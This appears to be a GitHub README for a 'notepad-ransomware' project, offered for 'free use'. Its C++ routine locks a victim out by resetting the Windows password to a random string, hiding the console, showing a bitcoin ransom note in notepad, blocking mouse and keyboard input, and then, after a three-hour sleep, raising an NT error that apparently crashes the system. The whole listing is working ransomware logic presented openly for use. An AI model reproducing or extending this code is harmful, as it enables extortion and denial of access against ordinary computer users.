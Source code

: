 ##### notepad-ransomware
virustotal: 4b76eaba7150de8027f61V8YutSgDmzEX8pK3gimydac1Sn2eWa9g0c31418a8df, 5/67 <br>
warn: the disk encryption system has been cut out.
<hr>

```cpp
string user_name = g_utils.get_user_name(); // getting user name

g_utils.rename_builder(); // renaming builder to random chars
g_win32.show_window(g_win32.get_console_window(), 0); // hide console
g_utils.set_password_windows(user_name, g_utils.random_string(25)); // setting random password of victim windows
g_utils.show_notepad(user_name, "your btc here"); // show readme using notepad.exe
g_win32.block_input(1); // blocking use mouse and keyboard
g_win32.sleeping_mode(10800000); // Sleep() in 3 hrs
g_nt.jmp_raise(19, ((DWORD)0xC00002B4L)); // call nt
```

##### Demostration
<hr>

![d](https://github.com/carterjwasd/notepad-ransomware/blob/main/demo.jpg)

#### Warning message
<hr>

Use it at your own risk. <br>
The author is not responsible for your actions in using this is.

#### License
<hr>

free use
